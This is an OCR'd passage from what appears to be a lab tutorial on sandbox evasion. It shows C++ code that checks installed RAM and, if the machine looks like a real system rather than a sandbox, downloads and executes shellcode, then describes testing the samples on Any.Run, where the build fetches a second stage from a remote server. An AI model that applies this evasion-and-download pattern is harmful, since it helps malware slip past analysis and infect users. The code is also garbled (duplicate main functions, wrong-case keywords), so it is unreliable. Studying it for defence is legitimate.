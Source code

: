 > **#include &lt;iostream&gt;**

> **#include &lt;windows.h&gt;**

> **using namespace std;**

> **int main() {**

> **// Declare the MEMORYSTATUSEX Struct**

> **MEMORYSTATUSEX statex;**

> **// Set the length of the struct to the size of the struct**

> **statex.dwLength = sizeof (statex);**

> **// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info**

> **GlobalMemoryStatusEx(&amp;statex);**

> **// Print the physical memory installed on the system**

> **}**

> **If (statex.ullTotalPhys /1024/1024/1024 &gt;=5.00){**

> **return TRUE;**

> **}else {return False;}**

> **}**

> **int main() {**

> **// Evaluates if the installed RAM amount is greater than 5.00 GB,**

> **//if true download Shellcode, if false, exit the program.**

> **if (memoryCheck() == TRUE) {**

> **downloadAndExecute();**

> **} else {**

> **exit;**

> **}**

> **return 0; }**

**Testing our Code**

Now that we have finished the second of our third Sandbox Evasion method, it is important that we test it to ensure that it works. To do so, we are going to upload our files to **Any.Run**

• . One with the Memory Check Function

• . One without the Memory Check function

Looking at the two samples side by side shows some interesting differences; in the first submission, our memory check function works without any issue and gracefully exits the program when it notices the device has less than 5GB of RAM.

In our unmodified, original code, we can see the HTTP GET Request to go out to an AWS Web Server to get Stage two.
